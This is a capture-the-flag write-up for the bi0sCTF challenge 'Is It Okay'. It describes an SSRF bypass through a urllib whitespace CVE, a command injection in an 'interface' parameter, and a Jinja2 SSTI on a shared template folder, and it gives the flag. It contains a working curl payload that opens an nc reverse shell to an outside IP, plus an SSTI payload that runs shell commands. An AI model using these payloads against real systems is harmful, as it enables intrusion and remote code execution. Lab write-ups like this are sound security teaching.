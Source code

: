 # Is It Okay

### Challenge description

Is this really ok......

### Short Writeup

#### I'st part

-> Fuzzing to get the /internal endpoint 

-> On giving a malformed url, you can see the urllib error, so the backend is making a request using the inbuilt urllib module.

-> The reponse headers give out the python version, which is 3.11.3 combining the points they'll get a CVE, which is used bypass block restrictions by appending a whitespace at the start of a url, hence they can now send requests to the internal registry network.


####  II'nd part

-> They'll have to write a script to automate the download repos from the registry.

-> Once they have the source code, on looking at the source code of the node app they'll see that it is using the network module to get details of the gateway ip.

-> This is a custom gadget but can be easily found out by looking at the source code. Using the following payload they can get RCE on the server

```
 curl "http://localhost:1111/custom/?interface=| rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.113.21.179 5001 >/tmp/f #"
 ```


####  III'rd part

-> Once they have reverse shell, on doing lsblk they can see that the /app/templates folder is mounted from the host's machine. 

-> You can also see that templates auto reload on the core service's source code.

-> Combining the above two points they you can figure out that the template folder that flask uses is mounted from the host on to both of the services, ie Vec and Core. So on modifying index.html in the templates folder from the node service it will also reflect on the core service and also on the host. The SSTI payload is as follows:

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```

-> Just reload the main page and you'll get the flag.

### Flag

bi0sctf{S4f3?_Y0u_G0tt4_B3_kidding_M3_l0l}

### Author

[Winters](https://twitter.com/ArunKr1shnan)
